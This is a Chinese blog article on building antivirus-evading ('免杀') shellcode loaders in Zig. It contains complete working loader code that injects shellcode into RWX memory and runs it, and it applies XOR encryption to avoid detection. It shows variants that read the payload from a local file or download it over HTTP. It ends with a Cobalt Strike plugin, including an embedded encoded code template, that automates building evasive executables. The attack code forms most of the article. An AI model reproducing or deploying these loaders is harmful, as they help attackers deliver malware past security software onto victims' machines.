




# Zig 语言免杀探索 - 先知社区

Zig 语言免杀探索

- - -

本文将介绍如何使用 Zig 编程语言来开发免杀程序，并提供了三种不同的方法来制作内嵌、本地和远程读取 Shellcode 的方式。

通过本地读取 Shellcode 的方法。我们可以直接从本地文件中读取 Shellcode，并将其加载到程序中。这种方式使得免杀程序具有更大的灵活性，因为可以根据需要动态地选择不同的 Shellcode 文件。

最后，文章讨论了远程读取 Shellcode 的技术。通过使用 Zig 提供的网络编程功能，我们可以从远程服务器下载 Shellcode，并将其注入到免杀程序中。这种方式使得免杀程序能够实时获取最新的 Shellcode，从而增加了对抗性。

除了以上这些开发技术，还提供了一个方便快捷的 Cobalt Strike 插件，用于生成制作免杀程序。这个插件简化了开发过程，并节省了大量的时间和精力。

插件下载地址：[https://github.com/yutianqaq/CSx4Ldr](https://github.com/yutianqaq/CSx4Ldr)

# 为什么是 Zig

> Zig 是一种通用编程语言和工具链，用于维护健壮的、最佳的和可重用的软件。

使用 Zig 制作免杀有下面几个优点：

1、跨平台

2、相对于 Golang、Rust、Nim，它对二进制文件有较好的控制（仅通过编译参数就可以控制二进制文件的大小、流程混淆等）

3、目前使用 Zig 做免杀的很少，所以性能会好一些。

下图是最终效果，本文将详细介绍使用 Zig 制作免杀的几种方式

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203852-29cfc0a4-d56d-1.png)

# Zig 特性

这是 Zig 的 Hello Wolrd

```plain
const std = @import("std");

pub fn main() void {
    std.debug.print("Hello, world!\n", .{});
}
```

使用默认的编译参数生成的 exe 为 742 kb。

```plain
PS > zig build-exe .\hello-zig.zig
PS > ls | findstr hello-zig.exe
-a---           2024/2/26    20:07         759296 hello-zig.exe
```

## Zig 的 4 种构建模式

从上面可以看到仅输出字符串，编译后的程序大小还是非常大的。

但 Zig，提供了非常方便的 4 种构建模式

`-Doptimize=Debug` 优化关闭和安全模式打开（默认）

`-Doptimize=ReleaseSafe` 优化打开和安全模式打开

`-Doptimize=ReleaseFast`优化打开、安全模式关闭

`-Doptimize=ReleaseSmall` 大小优化打开、安全模式关闭

下面来测试 4 中构建模式对生成后的 PE 文件影响

```plain
zig build-exe .\hello-zig.zig -O ReleaseSafe --name hello-zig-Safe
zig build-exe .\hello-zig.zig -O ReleaseFast --name hello-zig-Fast
zig build-exe .\hello-zig.zig  -O ReleaseSmall --name hello-zig-Small
```

这里可以看到，在 Fast 和 Small 构建模式生成的 exe 最小

```plain
ls | findstr hello-zig-*.
-a---           2024/2/26    20:24           4608 hello-zig-Fast.exe
-a---           2024/2/26    20:24         503296 hello-zig-Safe.exe
-a---           2024/2/26    20:24           4608 hello-zig-Small.exe
-a---           2024/2/26    20:05             97 hello-zig.zig
```

还可以使用 `-fstrip` 与 `-fsingle-threaded` 参数进一步缩小 exe 文件

缩小后的 仅 3072 字节（3kb）

```plain
zig build-exe .\hello-zig.zig  -O ReleaseSmall --name hello-zig-Small  -fstrip -fsingle-threaded 

ls | findstr hello-zig-*.
-a---           2024/2/26    20:24           4608 hello-zig-Fast.exe
-a---           2024/2/26    20:24         503296 hello-zig-Safe.exe
-a---           2024/2/26    20:29           3072 hello-zig-Small.exe
-a---           2024/2/26    20:05             97 hello-zig.zig
.\hello-zig-Small.exe
Hello, world!
```

但此处需要注意的是，生成的文件不一定越小越好。

## 使用 Zig 编译 C 语言代码

Zig 还可以当作一个编译器来用。但，这里编译的时候出了点问题，没有编译成功。不过，可以当一个语法参考来使用

```plain
zig cc .\hello.c -o hello-c.exe                                                                                     
zig c++ .\hello.c -o hello-cpp.exe                                                                                      
.\hello-c.exe        
Hello world
.\hello-cpp.exe      
Hello world
zig translate-c .\hello.c -isystem "C:\zig\lib\libc\include\any-windows-any\" > hello.zig
zig build-exe .\hello.zig                                                                                               
start.zig:506:17: error: expected return type of main to be 'void', '!void', 'noreturn', 'u8', or '!u8'
                @compileError(bad_main_ret);
                ^~~~~~~~~~~~~~~~~~~~~~~~~~~
```

# Win API 调用

## Messagebox

这是 Zig 调用 Win API 的一个例子

```plain
const std = @import("std");
const win = std.os.windows;
// https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox

// int MessageBox(
//   [in, optional] HWND    hWnd,
//   [in, optional] LPCTSTR lpText,
//   [in, optional] LPCTSTR lpCaption,
//   [in]           UINT    uType
// );
extern "user32" fn MessageBoxA(
    hWnd: ?*anyopaque,
    lpText: [*:0]const u8,
    lpCaption: [*:0]const u8,
    uType: win.UINT,
) callconv(.C) i32;

pub fn main() !void {
    _ = MessageBoxA(null, "Hello", "Zig", 0);
}
```

编译运行后，弹出了一个消息框

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203839-220a5b5e-d56d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203846-26396e86-d56d-1.png)

## 使用 Zig 写一个 Shellcode 加载器

首先需要导入必要的目标和定义必要的 Windows 中的一些类型

```plain
const std = @import("std");
const win = std.os.windows;
const kernel32 = win.kernel32;

const STARTUPINFOW = win.STARTUPINFOW;
const PROCESS_INFORMATION = win.PROCESS_INFORMATION;
const WINAPI = win.WINAPI;
const FALSE = win.FALSE;
const TRUE = win.TRUE;
const HANDLE = win.HANDLE;
const DWORD = win.DWORD;
const BOOL = win.BOOL;
const SIZE_T = win.SIZE_T;
const LPVOID = win.LPVOID;
const LPCVOID = win.LPCVOID;
const SECURITY_ATTRIBUTES = win.SECURITY_ATTRIBUTES;
const LPDWORD = *DWORD;
const LPTHREAD_START_ROUTINE = win.LPTHREAD_START_ROUTINE;
const PROCESS_ALL_ACCESS = 0x000F0000 | (0x00100000) | 0xFFFF;
```

接着从 [Windows API 文档](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)中找到相应的函数原型

```plain
extern "kernel32" fn GetCurrentProcessId() callconv(WINAPI) DWORD;
extern "kernel32" fn OpenProcess(dwDesiredAccess: DWORD, bInheritHandle: BOOL, dwProcessId: DWORD) callconv(WINAPI) HANDLE;
extern "kernel32" fn VirtualAllocEx(hProcess: HANDLE, lpAddress: ?LPVOID, dwSize: SIZE_T, flAllocationType: DWORD, flProtect: DWORD) callconv(WINAPI) LPVOID;
extern "kernel32" fn WriteProcessMemory(hProcess: HANDLE, lpBaseAddress: LPVOID, lpBuffer: LPCVOID, nSize: SIZE_T, lpNumberOfBytesWritten: *SIZE_T) callconv(WINAPI) BOOL;
extern "kernel32" fn CreateThread(attr: ?*anyopaque, stacksize: usize, entrypoint: ?*anyopaque, param: ?*anyopaque, creationflag: u32, threadid: ?*u32) callconv(WINAPI) ?HANDLE;
extern "kernel32" fn WaitForSingleObject(handle: ?HANDLE, duration: u32) callconv(WINAPI) u32;
```

定义好 Windows 类型、函数原型后就可以按照常规的 WIN API 调用方式来编写 Shellcode 加载器了

```plain
fn Injection(shellcode: []u8) void {
    const pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());

    const rPtr = VirtualAllocEx(pHandle, null, shellcode.len, win.MEM_COMMIT, win.PAGE_EXECUTE_READWRITE);

    var bytesWritten: SIZE_T = undefined;
    _ = WriteProcessMemory(pHandle, rPtr, @ptrCast(shellcode.ptr), shellcode.len, &bytesWritten);

    const tHandle = CreateThread(null, 0, @ptrCast(rPtr), null, 0, null);
    _ = WaitForSingleObject(tHandle, win.INFINITE);
}
```

要调用此函数，需要在 main 定义 Shellcode，并在调用的时候传入参数：

```plain
pub fn main() void {

    var shellcodeX64 = [_]u8{ 0xfc, ...[snip]... 0x00 };

    Injection(shellcodeX64[0..]);

}
```

运行结果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203832-1e192c82-d56d-1.png)

此时，由于 Shellcode 硬编码在代码中，且没有做任何加密。

所以，会被杀毒软件识别。只需要做简单的多字节异或加密即可

## 通过多字节异或加密来保护 Shellcode

```plain
fn xorEncrypt(data: []u8, key: []const u8) void {
    var j: usize = 0;
    for (data) |*value| {
        if (j == key.len) j = 0;
        value.* ^= key[j];
        j += 1;
    }
}
```

运行结果：

```plain
zig build-exe .\main.zig
.\main.exe
Encrypted Data: { a2, fe, a6, a2, fc, a4, a0, fc }
Key: { e3, bf, e7 }
Decrypted Data: { 41, 41, 41, 41, 43, 43, 43, 43 }
Key: { e3, bf, e7 }
```

现在，可以使用 Zig 编写好的程序来加密 Shellcode，也可以使用 Supernova 来获得一个随机长度 Key 的多字节异或加密 Shellcode

> Supernova 是一个 Golang 写的 Shellcode 加载器，支持 ROT, XOR, RC4, AES, CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20 等加密方式。使用 Sup 生成一个随机 Key 方便

下面是使用 Supernova 来加密 Shellcode 的命令

```plain
ls | findstr calc.bin
-a---          2023/12/11    22:15            276 calc.bin
Supernova.exe -enc xor -i .\calc.bin -lang c -k 10
[+] Payload size: 276 bytes

[+] Converted payload to c language

[+] Generated XOR key: 0x5a, 0x2e, 0xb7 ...[snip]... 0x3f, 0x56

[+] The encrypted payload with XOR:

unsigned char shellcode[] = "0xa6, ...[snip]... 0x89";
```

编译后：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203800-0ab570ec-d56d-1.png)

**代码**

```plain
const std = @import("std");
const win = std.os.windows;

...[snip]...

pub fn main() void {
    var shellcodeX64 = [_]u8{ 0xa6, ...[snip]... 0x89 };

    Injection(shellcodeX64[0..]);
}

fn Injection(shellcode: []u8) void {
    const pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());

    const rPtr = VirtualAllocEx(pHandle, null, shellcode.len, win.MEM_COMMIT, win.PAGE_EXECUTE_READWRITE);
    const key = [_]u8{ 0x5a, 0x2e, 0xb7 ...[snip]... 0x3f, 0x56 };
    xorEncrypt(shellcode[0..], key[0..]);
    var bytesWritten: SIZE_T = undefined;
    _ = WriteProcessMemory(pHandle, rPtr, @ptrCast(shellcode.ptr), shellcode.len, &bytesWritten);

    const tHandle = CreateThread(null, 0, @ptrCast(rPtr), null, 0, null);
    _ = WaitForSingleObject(tHandle, win.INFINITE);
}

fn xorEncrypt(data: []u8, key: []const u8) void {
    var j: usize = 0;
    for (data) |*value| {
        if (j == key.len) j = 0;
        value.* ^= key[j];
        j += 1;
    }
}
```

# 分离免杀 Zig 实现

## 本地载入方式

还可以通过读取本地文件的方式来实现 Shellcode 加载

只需要将 main 函数替换为以下代码

> 需要注意 buf 变量要比文件大

```plain
pub fn main() !void {
    var file = try std.fs.cwd().openFile("calc.bin", .{});
    defer file.close();

    var buf_reader = std.io.bufferedReader(file.reader());
    var in_stream = buf_reader.reader();

    var buf: [276]u8 = undefined;
    _ = try in_stream.readAll(buf[0..]);
    Injection(buf[0..]);
}
```

**完整代码**

```plain
pub fn main() !void {
    var file = try std.fs.cwd().openFile("calc.bin", .{});
    defer file.close();

    var buf_reader = std.io.bufferedReader(file.reader());
    var in_stream = buf_reader.reader();

    var buf: [1024]u8 = undefined;
    _ = try in_stream.readAll(buf[0..]);
    Injection(buf[0..]);
}

fn Injection(shellcode: []u8) void {
    const pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());
    const rPtr = VirtualAllocEx(pHandle, null, shellcode.len, win.MEM_COMMIT, win.PAGE_EXECUTE_READWRITE);

    var bytesWritten: SIZE_T = undefined;
    _ = WriteProcessMemory(pHandle, rPtr, @ptrCast(shellcode.ptr), shellcode.len, &bytesWritten);

    const tHandle = CreateThread(null, 0, @ptrCast(rPtr), null, 0, null);
    _ = WaitForSingleObject(tHandle, win.INFINITE);
}

fn xorEncrypt(data: []u8, key: []const u8) void {
    var j: usize = 0;
    for (data) |*value| {
        if (j == key.len) j = 0;
        value.* ^= key[j];
        j += 1;
    }
}
```

## 获取远程的 Shellcode

向远程服务器发起请求：

```plain
pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();
    var client: http.Client = http.Client{ .allocator = allocator };
    defer client.deinit();
    const uri = std.Uri.parse("http://localhost/calc.bin") catch unreachable;

    const headers: http.Headers = http.Headers.init(allocator);
    var req = try client.open(.GET, uri, headers, .{});
    errdefer req.deinit();
    try req.send(.{});
    defer req.deinit();
    try req.wait();

    var buf: [276]u8 = undefined;
    _ = try req.readAll(buf[0..]);
    Injection(buf[0..]);
}
```

> 注意：使用时需要将更改 url 内容及 buf 的大小

**完整代码：**

```plain
const std = @import("std");
const win = std.os.windows;
const http = std.http;

const STARTUPINFOW = win.STARTUPINFOW;
const PROCESS_INFORMATION = win.PROCESS_INFORMATION;
const WINAPI = win.WINAPI;
const FALSE = win.FALSE;
const TRUE = win.TRUE;
const HANDLE = win.HANDLE;
const DWORD = win.DWORD;
const BOOL = win.BOOL;
const SIZE_T = win.SIZE_T;
const LPVOID = win.LPVOID;
const LPCVOID = win.LPCVOID;
const SECURITY_ATTRIBUTES = win.SECURITY_ATTRIBUTES;
const LPDWORD = *DWORD;
const LPTHREAD_START_ROUTINE = win.LPTHREAD_START_ROUTINE;
const PROCESS_ALL_ACCESS = 0x000F0000 | (0x00100000) | 0xFFFF;

extern "kernel32" fn GetCurrentProcessId() callconv(WINAPI) DWORD;
extern "kernel32" fn OpenProcess(dwDesiredAccess: DWORD, bInheritHandle: BOOL, dwProcessId: DWORD) callconv(WINAPI) HANDLE;
extern "kernel32" fn VirtualAllocEx(hProcess: HANDLE, lpAddress: ?LPVOID, dwSize: SIZE_T, flAllocationType: DWORD, flProtect: DWORD) callconv(WINAPI) LPVOID;
extern "kernel32" fn WriteProcessMemory(hProcess: HANDLE, lpBaseAddress: LPVOID, lpBuffer: LPCVOID, nSize: SIZE_T, lpNumberOfBytesWritten: *SIZE_T) callconv(WINAPI) BOOL;
extern "kernel32" fn CreateThread(attr: ?*anyopaque, stacksize: usize, entrypoint: ?*anyopaque, param: ?*anyopaque, creationflag: u32, threadid: ?*u32) callconv(WINAPI) ?HANDLE;
extern "kernel32" fn WaitForSingleObject(handle: ?HANDLE, duration: u32) callconv(WINAPI) u32;

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();
    var client: http.Client = http.Client{ .allocator = allocator };
    defer client.deinit();
    const uri = std.Uri.parse("http://localhost/calc.bin") catch unreachable;

    const headers: http.Headers = http.Headers.init(allocator);
    var req = try client.open(.GET, uri, headers, .{});
    errdefer req.deinit();
    try req.send(.{});
    defer req.deinit();
    try req.wait();

    var buf: [276]u8 = undefined;
    _ = try req.readAll(buf[0..]);
    Injection(buf[0..]);
}

fn Injection(shellcode: []u8) void {
    const pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());
    const rPtr = VirtualAllocEx(pHandle, null, shellcode.len, win.MEM_COMMIT, win.PAGE_EXECUTE_READWRITE);


    var bytesWritten: SIZE_T = undefined;
    _ = WriteProcessMemory(pHandle, rPtr, @ptrCast(shellcode.ptr), shellcode.len, &bytesWritten);

    const tHandle = CreateThread(null, 0, @ptrCast(rPtr), null, 0, null);
    _ = WaitForSingleObject(tHandle, win.INFINITE);
}
```

# 制作 Cobalt Strike 插件

现在可以制作一个 Cobalt Strike 插件来快速生成代码，无需每次手动编译了。

首先需要创建一个来展示选择监听器的对话窗口

```plain
sub x4Ldrmenu {
    $dialog = dialog("x4Ldrmenu", %(listener => "" , bit => false), &builder);
    drow_listener_stage($dialog, "listener", "Listener: ");
    dialog_description($dialog, "用于快速生成免杀的可执行文件。");
    dbutton_action($dialog, "Generate");
    dbutton_help($dialog, "https://github.com/yutianqaq/CSx4Ldr");
    dialog_show($dialog);
}
```

接下来是程序主题，用于处理选择监听器、生成随机 key。

```plain
$xorkey = random_string();
    $format_shellcode = shellcode($3["listener"], false, "x64");

    $encrypted_shellcode = str_xor($format_shellcode, $xorkey);
    $encrypted_test = str_xor("test", $xorkey);
    $encrypted_shellcode_size = strlen($format_shellcode);
    println("Key: ". $xorkey);
    println("encrypted_shellcode_size: ". $encrypted_shellcode_size);
```

code 变量用来保存代码，使用 gzip 来压缩代码，并将 Shellcode 转为相应的格式。

接着替换 code 变量中的值，将 Shellcode 和 随机 key 填充。

```plain
$code = gunzip(base64_decode("H4sIAAAAAAAAA31WW3ObOBR+96/Q5KFjsgxxL7Oz40wmJZg0zNrGY3DdbibLyCDXuFhQIZK4af77HknI4IQtD7HO/ejTp6OcnSFvV+SMI0Z+VCkjCdrlSZWRshfntOSo5Am6QB9T6dQ/AfHEOK9tqyrNeNsqFSltPCjm6T2JMIs34CfNVlxUllBon4eUgg0SW3lpgZDkD6W2fSeMkuz9O3AAi6XF817v7AyNyDqlBPF9ceg2CO15uJh502t/Wce0VTrtbO47bhBEQjmf2KHnT2vvDosOcuauHbpRsAhm7nTkjiBi8DhQ3wfttPSm9syrkylBm67tceDWFrnWhnC+0Hqx1Oobezoaa4MStGm09Oej2iLX2nDl++NaL5ZaHXj/uFGoAZGCNo1nn31P51JCY3KObE7bGLjOYu6FXyM7DOfe1SJ0A53/taXJqDs/PWp7PBO4R+ENQDxq4qKxF4iuTzHd5wX+UZEmoLt+l2edVfIgmvuL0Ju6hz11GV+yxB6PI9sRS33k1+LM0S/UF9JbyQADxMHjNXyKnOSRA1nRiabsCVpT9Ilwp2KMUD5jeUzK0kv6BopxlkHF+77ii4FqbDpT+AWhdXA/eRiRUtxZOxbyUAWaaOXRDWEpv8E0ychQssJEycOhaO3ZUVrzrLP255TxCmd2luWx+9jf1PmGdZSJssJOEiZVl4pLomyQ/oQmFO1MtFbxMBhyGsLVPXS9ziAfJzH//+40Pzu7W8KOSd3ShOxytu/s8AqX5NClbhLU1XpN2FCT3kT0uO2smFa7FWH++mrPSSmKcUKH6FQ5dDSrLmBnqw4jmJNwAz9JH3MOdS8b6powDHH8vZT1K/FjIqAM2xd5SvkL1wIzvHuhi0V6gHed4W+Q4f07E3FZK02EJygMdPnbk17ilF/nLEjpt4z4qy2cSn9Ts+lSY5lUTJaRJQzxR1G/qFYixw6nFNh9n6cJeurVyodlSifCEA3VXPOmcPemDqQDzeVrlRzKyyCcSymOAIEW1s2UNZQNKiH47jFD5YYIr4R8+fMDXNzb6K766wk9PQU37njs+CP3+Rk9n0t3J8NlmUJWj4qtwp767ejbgWXdGcqVEV4BXIPz3nOvJ47yN6FDdAs1DxCIcDVZCnUzoav2dX49b0z1aJiHd9DqnCDQWis5m3EGmV9c1rok8LrKMrMBx8oINSXKE3cSOf5k4oVKntmf3Mj9AnMWJrGYkkuYt24Ng36e921k/3a/Npg+5sylMZCWN4BIIMVu9hrSw2mtjm7V4cGqaCJf+UQljUDVcc8PmxN7N9HHgjMHl63CFmiMV7t+0y56DCI/nNDRXVXgDVolREVDozpQC6PVbMdF4rpbgTL8o+FNFa6KUC3cEsyx4pDETCxVdy9IJfDb1qNCPFGq/DpnSKaAp+n0HmcV+VX7iy9do/4WXVyIxAINA22bUJUUIqxT9K90ud3eNaYt+uMCvVXyM7T9H0XNsdZFCgAA"));
    $final_shellcode = format_csharp($encrypted_shellcode);
    $final_xorkey = format_csharp($xorkey);
    println("format_fsharp: ". $final_xorkey);
    $code = replace($code , '\{\{KEY\}\}' , $final_xorkey);
    $code = replace($code , '\{\{SHELLCODE\}\}' , $final_shellcode);
```

最后，写入到文件中，调用编译命令执行。

至此，完成自动化生成。无需每次都手动生成 bin 文件，生成异或 key。很方便！

```plain
}else{
            $cmd = "/home/kali/CSx4Ldr/zig/zig build-exe /tmp/temp.zig -fstrip -fsingle-threaded --name x4Ldr -target x86_64-windows";
            $zigfile = "/tmp/temp.zig";
            $clear = "rm /tmp/temp.zig";
            $handle = openf("> $+ $zigfile");
        }

        writeb($handle, $code);
        closef($handle);
        exec($cmd, $null, "/home/kali");
        println("cmd: ". $cmd);
        exec($clear);
```

插件下载地址：[https://github.com/yutianqaq/CSx4Ldr](https://github.com/yutianqaq/CSx4Ldr)
